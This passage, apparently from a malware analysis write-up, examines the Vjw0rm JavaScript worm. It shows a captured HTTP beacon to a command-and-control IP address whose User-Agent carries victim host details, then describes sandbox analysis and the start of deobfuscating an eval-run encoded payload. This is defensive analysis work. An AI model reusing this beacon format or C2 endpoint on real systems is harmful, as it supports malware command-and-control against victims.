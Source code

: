 
```http

POST /Vre HTTP/1.1

Accept : */*
Accept-Language : en-US
User-Agent : thechem0rder2223_C4BA3647\USER-PC\admin\Microsoft Windows 7 Professional \undefined\\YES\FALSE\
Accept-Encoding : gzip, deflate
Host : 185.157.162.75:2223
Content-Length : 0
Connection : Keep-Alive
Cache-Control : no-cache
```

*Box1: Content of HTTP request*

  

### Vjw0rm

  

After behavioural analysis in a sandbox and investigating the network traffic /pcap file the malware file is analyzed to learn more about the malware's functionality.

  

#### Deobfuscation

  

For further analysis, I downloaded the zip file of the virus and stored in my directory : `malware_analysis/vjworm/` in my *RemNux* machine

Then checked the type of the file in the terminal:

```bash

 file vjworm.js

 ascii text with very long line and no termination

```

*Box2 :  determining the file type*

  

As the result did not help much, according to its extension, the file type got considered as *JavaScript*.

  

I opened the file in *VScode* environment, as the first step beautified the code using *cyberchef* to read the code  easily.

The code was clearly obfuscated, filled with garbage code, and confusing variable names.

  

I found a big chunk of encoded characters that were executed in the JS code using *eval* function.  As shown below:
